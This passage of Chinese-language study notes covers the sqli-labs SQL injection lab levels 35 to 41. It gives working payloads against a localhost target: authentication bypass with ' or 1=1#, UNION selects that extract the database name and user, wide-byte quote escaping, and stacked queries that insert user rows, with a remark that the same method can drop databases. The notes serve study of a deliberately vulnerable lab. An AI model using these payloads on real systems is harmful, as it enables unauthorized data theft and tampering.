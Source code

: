 `uname=� ' or 1=1#&passwd=1`

***

**Less-35**

id并未被闭合，不需要考虑引号过滤

`http://127.0.0.1/sqli/less-35/?id=0 union select 1,database(),3--+`

***

**Less-36**

单引号闭合
`http://127.0.0.1/sqli/Less-36/?id=-1%df%27 union select 1,user(),3--+`

***

**Less-37**

同34关

`uname=� ' or 1=1#&passwd=1`

***

**Less-38**

堆叠注入`stacked-injection`

注入多条Sql语句，分号分割，同C语言单行多条语句

payload:
`http://127.0.0.1/sqli/Less-38/?id=1';insert into users(id,username,password) values('40','Ivan','Ivan')--+`

还可以进行drop database，update password等操作

***

**Less-39**

同上一关，id不闭合

`http://127.0.0.1/sqli/Less-38/?id=1;insert into users(id,username,password) values('40','Ivan','Ivan')--+`

***

**Less-40**

('$id')闭合

`http://127.0.0.1/sqli/Less-38/?id=1');insert into users(id,username,password) values('40','Ivan','Ivan')--+`

***

**Less-41**

同Less-39，id不闭合，无错误回显
